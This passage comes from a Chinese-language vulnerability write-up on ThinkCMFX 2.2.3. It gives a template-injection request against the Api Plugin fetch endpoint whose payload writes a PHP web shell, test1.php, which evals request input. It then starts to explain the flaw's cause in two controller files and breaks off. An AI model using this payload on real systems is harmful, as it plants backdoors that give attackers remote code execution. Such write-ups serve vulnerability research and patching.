 ![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId33.jpg)

#### 0x02.2 Api类模版注入1

    url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
    post:
    templateFile=/../../../public/index
    prefix=''
    content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php>

同上一样，会在跟目录生成 马子 test1.php

#### 0x02.3 漏洞原理

路径:ThinkCMFX\\application\\Comment\\Controller\\WidgetController.class.php
路径:ThinkCMFX\\application\\Api\\Controller\\PluginController.class.php

两处的漏洞原理都是一样的，所以我就选一处进行讲解了
路径:application\\Comment\\Controller\\WidgetController.class.php
方法：public function fetch()
